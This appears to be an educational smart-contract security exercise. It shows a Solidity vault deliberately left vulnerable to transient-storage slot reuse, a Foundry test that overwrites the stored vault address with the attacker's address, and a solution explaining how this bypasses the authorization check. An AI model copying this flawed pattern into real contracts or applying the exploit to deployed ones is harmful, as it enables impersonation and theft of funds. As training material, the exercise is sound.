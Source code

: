 
Introduction: transcient is a keyword that  has  been  introduced to avoid reentrancy but has other usage like transfer +  approval in the same transaction.<br>
<br>
<br>
This code is vulnerable to a transient vulnerability. Try find the  vulnerability and read the solution at the end of this code. Read the following link to understand transient keyword first.<br>
It has been  introduced in 2024 : https://soliditylang.org/blog/2024/01/26/transient-storage/<br>
<br><br><br><br>




```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "forge-std/Test.sol";

/*
SIR (Storage Injection via Reentrancy) vulnerability transient storage test
Reference: https://www.coveragelabs.io/blog/post/sir-exploit
Solidity 0.8.24+ transient storage
*/

// Simplified transient storage vulnerability demonstration

contract SimpleVault {
    // mint function
    function mint(uint256 amountToDeposit) external returns (uint256) {
        // Write vault address (address(this)) to transient storage
        address vault = address(this);
        assembly {
            tstore(1, vault)
        }
        
        // Directly call own callback function
        this.SwapCallback(amountToDeposit, "");
        
    }
    
    // Simulate SwapCallback callback function
    function SwapCallback(uint256 amount ,bytes calldata data) external {
        // Read vault address from transient storage
        address vault;
        assembly {
            vault := tload(1)
        }

        // Check if caller is a legitimate vault
        require(msg.sender == vault, "Not authorized");
        
        if (vault == address(this)) {
            // Output vault address for observation
            console.log("vault address:", vault);
            // Write the returned amount to transient storage
            assembly {
                tstore(1, amount)
            }
        } else {
            console.log("Manipulated vault address:", vault);
        }
    }

}

contract TransientStorageMisuseTest is Test {
    SimpleVault vault;
    
    function setUp() public {
        vault = new SimpleVault();
    }


    function testStorageExploit() public {
        // First, let's check what address we want to get
        console.log("Target address:", address(this));
        
        // Convert the address to uint256
        uint256 amount = uint256(uint160(address(this)));
        emit log_named_uint("Amount needed", amount);
        
        // Now use this amount in the mint function
        vault.mint(amount);
        // Exploit callback
        vault.SwapCallback(0, "");
    }
}
```


Solution:<br>
1 - vault.mint(uint256(uint160(address(this))));  to overwrite the vault address.<br>
2 - use  SwapCallback()  pass the require statement since the vault address has been updated! <br>

Explanation:
- In `mint()`, `tstore(1, address(this))` stores the vault address.
- `this.SwapCallback(amount, "")` reads that correct vault address, passes the `require`, then does `tstore(1, amount)`.  
    → Now slot 1 == `amount` == the attacker’s address.

- In `SwapCallback`, `vault := tload(1)` pulls the attacker’s address out of slot 1.
- `require(msg.sender == vault)` now passes **because msg.sender is the attacker**.
    - So the attacker has successfully **impersonated** the vault!
